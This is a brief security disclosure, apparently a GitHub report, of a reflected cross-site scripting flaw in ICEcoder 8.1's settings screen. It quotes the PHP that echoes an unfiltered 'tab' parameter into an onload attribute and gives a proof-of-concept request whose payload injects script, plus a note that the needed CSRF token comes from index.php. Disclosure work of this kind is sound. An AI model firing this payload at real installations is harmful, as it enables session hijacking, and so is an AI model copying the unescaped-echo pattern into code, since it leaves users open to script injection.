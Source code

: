 A xss vulnerability in icecoder 8.1.

In file https://github.com/icecoder/ICEcoder/blob/master/lib/settings-screen.php

```php
...
if (true === isset($_GET['tab'])) {
    $tabSwitchExtra = "switchTab('" . $_GET['tab'] . "');";		// Line 42 (Source)
}
...
<body class="settings" onkeyup="parent.ICEcoder.handleModalKeyUp(event, 'settings')" onload="<?php echo $tabSwitchExtra;?>this.focus();">	// Line 50(Sink)
```

Source from `$_GET['tab']` and without any filtering, which resulting in XSS.

# Poc

`GET /lib/settings-screen.php?tab=style%27)%22%20onerror=%22alert(%27xss%27)%22%20(%27&csrf=f64d3d95dc4af18766d285ff437e4d4f`

The value of csrf can access from index.php

# Manual verification

![alt text](3.png)

![alt text](4.png)



The developer has been informed of the report via email
